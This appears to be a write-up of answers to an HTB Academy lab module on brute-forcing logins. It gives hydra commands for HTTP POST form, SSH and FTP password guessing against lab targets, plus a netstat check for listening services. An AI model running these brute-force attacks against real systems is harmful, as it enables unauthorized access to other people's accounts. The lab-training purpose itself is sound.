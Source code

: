 # Question 1: Using the technique you learned in this section, try attacking the IP shown above. What are the credentials used?

Upon accessing the website IP:PORT we get a pop up. A simple http-get bruteforce as shown in the module is sufficient to get in. Alternatively, you could (and should) try some of the default credentials.
![image](https://github.com/idletim3/htb-academy-penetration-tester/assets/128943623/ec8112eb-3a79-4ca8-b3a7-08d81c9ef6bb)

![image](https://github.com/idletim3/htb-academy-penetration-tester/assets/128943623/05c13e0d-c92f-4328-a901-c58deb76e708)

Upon entering the credentials obtained using hydra:

![image](https://github.com/idletim3/htb-academy-penetration-tester/assets/128943623/74317d20-dd44-49b1-a9a9-b14a6f891d1d)

Notice the authorization header (value erased).

![image](https://github.com/idletim3/htb-academy-penetration-tester/assets/128943623/2cd4f68e-ce8c-4ed4-8359-b70ff1155393)

# Question 2: Try running the same exercise on the question from the previous section, to learn how to brute force for users.

Swap the username to an unknown (i.e. use a wordlist, -L), while keeping the password known (-p).

# Question 3: Using what you learned in this section, try attacking the '/login.php' page to identify the password for the 'admin' user. Once you login, you should find a flag. Submit the flag as the answer. 

Notice that the method has changed from GET to POST. This needs to be accounted if you're using hydra.

![image](https://github.com/idletim3/htb-academy-penetration-tester/assets/128943623/d2fe63bc-8401-471f-bee8-c2c2de7c388e)

The command required takes the following form:
```
hydra -l [username] -P [password wordlist] [IP] -s [PORT] [Request type] "<url>:<form parameters>[:<optional>[:<optional>]:<condition string>"
hydra -l [redacted] -P [redacted] 94.237.49.166 -s 45313 http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"
```

![image](https://github.com/idletim3/htb-academy-penetration-tester/assets/128943623/78b91f7a-31af-4ef8-af36-9b7e1fa21fc4)

# Question 4: Using what you learned in this section, try to brute force the SSH login of the user "b.gates" in the target server shown above. Then try to SSH into the server. You should find a flag in the home dir. What is the content of the flag?

The login name is given in the module. Generate a password list following the steps from the "Personalized Wordlists" section.
```
hydra -l b.gates -P william.txt ssh://83.136.254.223:54150 -t 4
```
![image](https://github.com/idletim3/htb-academy-penetration-tester/assets/128943623/307e945d-43f0-4158-8342-4ed7f1eebd67)

![image](https://github.com/idletim3/htb-academy-penetration-tester/assets/128943623/f50a409a-b1fe-460d-9cba-ff05e22fb04f)

# Question 5: Once you ssh in, try brute forcing the FTP login for the other user. You should find another flag in their home directory. What is the flag?

Confirming the FTP service is running on the machine and obtaining its port: `netstat -antp | grep -i list`

![image](https://github.com/idletim3/htb-academy-penetration-tester/assets/128943623/723bcbdd-ae8c-4500-9bb5-988ae3e99328)

Using the discovered information to bruteforce the FTP login for the other user: `hydra -l m.gates -P rockyou-10.txt ftp://127.0.0.1`

![image](https://github.com/idletim3/htb-academy-penetration-tester/assets/128943623/eddc7f6c-718f-4d02-9bb3-a9a53a26be5b)
